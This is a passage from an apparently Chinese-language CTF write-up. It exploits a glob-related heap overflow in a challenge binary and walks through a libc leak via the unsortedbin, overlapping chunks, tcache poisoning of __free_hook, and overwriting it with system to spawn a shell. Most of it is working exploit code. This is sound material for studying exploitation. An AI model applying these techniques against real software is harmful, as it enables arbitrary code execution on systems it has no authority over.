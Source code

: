 配合注释中的对应cve patche可以看出来, 因为只是在对比'\x00'截断位置, 因此可能将后续的`end_name`部分也写入进去, 造成堆溢出, 

调试, 按照此格式构造了一个对应的数据, 栈溢出成功:

```python

def exp():
    payload1 = flat('~', 'd' * 0x10, '\\', 'u'*0x30, '/', 'e' * (0x30-1), '/', 'filename')
    add(0, len(payload1), payload1)
    check(0)

```

![image-20210820140755951](https://i.loli.net/2021/08/20/QJC73EDs5IjbxTf.png)



## 利用

于是我们拥有了一个堆溢出, 但是仍然要注意'\x00'截断, 伪造数据只可以伪造到size, 

于是, 思路大致是, 

通过堆布局配合glob的cve, 修改size, 从而实现堆重叠, 被覆写的堆块要先在tcache里, 这样可以伪造tcache的链表, 然后借助tcache机制分配出来free_hook, 随便free掉一个写binsh的堆块即可, 

泄漏libc地址就add一个大chunk, 然后扔到unsortedbin里, 再次取回会有残留的地址, 

```python 
def exp():

    add(0, 0x580, 'a' * 0x80)
    add(1, 0x10, '/bin/sh\x00')
    dele(0)
    add(0, 0x580, '')
    show(0)
    ru("[+] Path : ")
    leak = u64(re(8, 2))
    free_hook = leak + 0x1ce8
    libc = free_hook - 0x3ed8e8
    print(hex(leak))
    print(hex(free_hook))

    add(2, 0x40, 'a')
    add(3, 0x40, 'a')
    add(4, 0x80, 'a')
    add(5, 0x80, 'a')

    dele(2)
    dele(3)
    dele(5)

    payload1 = flat('~', p8(0xff) * 0x10, '\\', 'u' * 0x30, '/', 'e' * (0x8-1), '!\x01',  '/', 'f' * 0x5)
    add(9, len(payload1), payload1)
    check(9)

    dele(4)

    add(6, 0x110, flat('a' * 0x80, 0, 0x90, free_hook))

    add(7, 0x80, 'a' * 0x10)
    system = libc + 0x4f550
    add(8, 0x80, flat(system))
    dele(1)

```
